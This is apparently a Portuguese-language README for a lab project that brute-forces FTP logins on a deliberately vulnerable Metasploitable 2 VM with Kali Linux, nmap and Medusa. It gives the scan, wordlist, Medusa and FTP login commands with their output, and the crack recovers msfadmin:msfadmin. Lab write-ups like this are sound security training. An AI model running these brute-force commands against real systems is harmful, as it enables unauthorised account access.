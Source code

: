# Projeto de Simulação de Ataques de Força Bruta com Kali Linux e Medusa

## Descrição do Projeto
Este projeto tem como objetivo demonstrar a execução de ataques de força bruta utilizando Kali Linux e a ferramenta Medusa contra serviços vulneráveis do Metasploitable 2 e aplicação DVWA (Damn Vulnerable Web Application). O projeto também aborda a configuração do ambiente para testes de segurança, tipos de ataques cibernéticos, vulnerabilidades exploradas e medidas de mitigação para proteger sistemas.

## Objetivos
- Compreender ataques de força bruta em serviços FTP, Web e SMB.
- Utilizar Kali Linux e Medusa para auditoria de segurança em ambiente controlado.
- Documentar processos técnicos de forma clara e estruturada.
- Reconhecer vulnerabilidades comuns e propor medidas de mitigação.
- Disponibilizar a documentação e evidências em repositório GitHub como portfólio técnico.

## Ambiente Configurado
- Duas VMs no VirtualBox:
  - Kali Linux (atacante)
  - Metasploitable 2 (vítima vulnerável)
- Rede configurada como Host-Only para comunicação interna entre as VMs.
- DVWA instalado na Metasploitable 2 para testes em aplicações web.

## Ataques Executados

# Ataque de Força Bruta FTP com Medusa

## 1) Enumeração com nmap (portas 21,22,80,139,445)
   
  Comando: nmap -sV -p 21,22,80,139,445 192.168.10.3 
   ### varre as portas específicas com detecção de versão 


O que fazem os parâmetros:

nmap → Programa de varredura de portas e enumeração de rede.

-p 21,22,80,139,445 → varre apenas essas portas.

-sV → tenta descobrir versão do serviço.


### Exemplo de saída:

──(kali㉿kali)-[~]
└─$ nmap -sV -p 21,22,80,139,445 192.168.10.3                         
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-07 17:12 EDT
Nmap scan report for 192.168.10.3
Host is up (0.0027s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.10.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)



 ## 2) Lista de contas / senhas para teste (wordlists simples)

Crie dois arquivos (um para usuários, outro para senhas). 
### users.txt
┌──(kali㉿kali)-[~]
└─$ mkdir -p ~/wordlists   
                                                                                                                                
                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ cat > ~/wordlists/users.txt <<'EOF'
msfadmin
root
admin
user
test
guest
ftp
anonymous
tom
backup
EOF
                                                                                                                                 
### passwords.txt
cat > ~/wordlists/passwords.txt <<'EOF'
msfadmin
msf
toor
root
admin
password
123456
test
guest
ftp
EOF

## 3) Brute-force/enumeração com Medusa (FTP)

Instalação (se necessário):

sudo apt update
sudo apt install medusa -y

### Comando Medusa para FTP, usando listas criadas:
medusa -h 192.168.10.3 -U ~/wordlists/users.txt -P ~/wordlists/passwords.txt -M ftp -t 6 -f

O que significam as flags:

-h → alvo (IP).

-U → lista de usuários (um por linha).

-P → lista de senhas.

-M ftp → módulo/serviço FTP.

-t 6 → número de threads concorrentes (ajuste conforme CPU/rede).

-f → parar o ataque quando encontrar uma credencial válida para um usuário.

### Exemplo de saída esperada quando encontra credenciais:

┌──(kali㉿kali)-[~/wordlists]
└─$ medusa -h 192.168.10.3 -U ~/wordlists/users.txt -P ~/wordlists/passwords.txt -M ftp -t 6 -f

Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

2025-10-07 17:50:37 ACCOUNT CHECK: [ftp] Host: 192.168.10.3 (1 of 1, 0 complete) User: msfadmin (1 of 10, 0 complete) Password: msfadmin (1 of 10 complete)
# 2025-10-07 17:50:37 ACCOUNT FOUND: [ftp] Host: 192.168.10.3 User: msfadmin Password: msfadmin [SUCCESS]
2025-10-07 17:50:38 ACCOUNT CHECK: [ftp] Host: 192.168.10.3 (1 of 1, 0 complete) User: msfadmin (1 of 10, 1 complete) Password: admin (2 of 10 complete)
2025-10-07 17:50:38 ACCOUNT CHECK: [ftp] Host: 192.168.10.3 (1 of 1, 0 complete) User: msfadmin (1 of 10, 1 complete) Password: password (3 of 10 complete)
2025-10-07 17:50:38 ACCOUNT CHECK: [ftp] Host: 192.168.10.3 (1 of 1, 0 complete) User: msfadmin (1 of 10, 1 complete) Password: msf (4 of 10 complete)
2025-10-07 17:50:40 ACCOUNT CHECK: [ftp] Host: 192.168.10.3 (1 of 1, 0 complete) User: msfadmin (1 of 10, 1 complete) Password: root (5 of 10 complete)
2025-10-07 17:50:40 ACCOUNT CHECK: [ftp] Host: 192.168.10.3 (1 of 1, 0 complete) User: msfadmin (1 of 10, 1 complete) Password: toor (6 of 10 complete)
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/wordlists]
└─$ 

## 4) Teste de conexão FTP com as credenciais encontradas

Suponha que o medusa retornou msfadmin:msfadmin. Teste com um cliente FTP simples.

Modo interativo (ftp client):

Comando: ftp 192.168.10.3
### quando pedir:
Name (192.168.10.3:youruser): msfadmin
Password: msfadmin

Saída esperada:

┌──(kali㉿kali)-[~/wordlists]
└─$ ftp 192.168.10.3
Connected to 192.168.10.3.
220 (vsFTPd 2.3.4)
Name (192.168.10.3:kali): msfadmin
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
 

